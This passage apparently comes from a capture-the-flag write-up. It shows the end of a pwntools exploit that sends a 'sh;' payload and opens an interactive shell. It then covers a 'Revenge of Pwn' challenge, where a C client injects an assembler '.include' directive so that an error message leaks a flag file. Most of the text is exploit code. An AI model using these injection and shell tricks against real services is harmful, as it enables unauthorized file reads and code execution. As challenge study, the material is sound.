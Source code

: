 ```python=
  fmt = "sh;"
  fmt = fmt.ljust(0x60)
  write_text(0,fmt)
  read_text("0")

  r.interactive()
```

### Revenge of Pwn

* shellcraft.stager('0\n\t.include "/home/deploy/flag"', 0x4000) 
* will fail on asm and print error message with the flag.

```C=
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <netdb.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>
#include <arpa/inet.h> 

int main(int argc, char *argv[])
{
    setvbuf(stdout,0,2,0);
    char buf[0x100];
    puts("stack address @ 0x0");
    read(0,buf,0x100);
    int sockfd = 0, n = 0;
    char recvBuff[1024];
    struct sockaddr_in serv_addr; 

        
    if((sockfd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
    {
        printf("\n Error : Could not create socket \n");
        return 1;
    } 

    memset(&serv_addr, '0', sizeof(serv_addr)); 

    serv_addr.sin_family = AF_INET;
    serv_addr.sin_port = htons(31337); 

    if(inet_pton(AF_INET, "127.0.0.1", &serv_addr.sin_addr)<=0)
    {
        printf("\n inet_pton error occured\n");
        return 1;
    } 

    if( connect(sockfd, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0)
    {
       printf("\n Error : Connect Failed \n");
       return 1;
    } 
    dprintf(sockfd,"0\n\t.include \"/home/deploy/flag\"@");
    while(1) ;


}

```